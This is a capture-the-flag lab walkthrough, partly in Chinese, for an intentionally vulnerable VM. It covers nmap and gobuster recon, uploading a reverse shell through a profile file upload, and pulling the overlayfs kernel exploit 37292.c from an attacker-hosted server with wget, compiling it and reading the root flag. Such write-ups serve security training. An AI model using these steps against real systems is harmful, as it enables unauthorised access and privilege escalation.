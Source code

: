 
## 靶机信息
- 级别：容易
-  HINTS:
1. Get a user shell by uploading a reverse shell and executing it.
2. A proxy may help you to upload the file you want, rather than the file that the server expects.
3. There are 3 known privesc exploits that work. Some people have had trouble executing one of them unless it was over a reverse shell using a netcat listener.

## Recon

### nmap

```shell
 nmap -sn 192.168.1.0/24 //靶机有两个网卡
//IP:192.168.1.158  192.168.1.159

sudo nmap -sT --min-rate 10000 -p- 192.168.1.158 -oA tcp_scan/ports
PORT   STATE SERVICE
80/tcp open  http
```

## Web
### 目录爆破
```shell
gobuster dir -u http://192.168.1.158 -w /usr/share/wordlists/d
irb/common.txt -x php
```
![[Pasted image 20231018111842.png]]

访问后是一个登录框，注册一个账号后登陆，点击编辑个人信息，文件上传处上传一个shell即可

## 提权

### 内核提权
```shell
多次尝试
searchsploit ubuntu 14.04

Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                                                       | linux/local/37292.c

php -S 0:80
wget http://192.168.1.136/37292.c
gcc 37292.c -o 37292
```

```shell
root@simple:/root# cat flag.txt
cat flag.txt
U wyn teh Interwebs!!1eleven11!!1!
Hack the planet!
```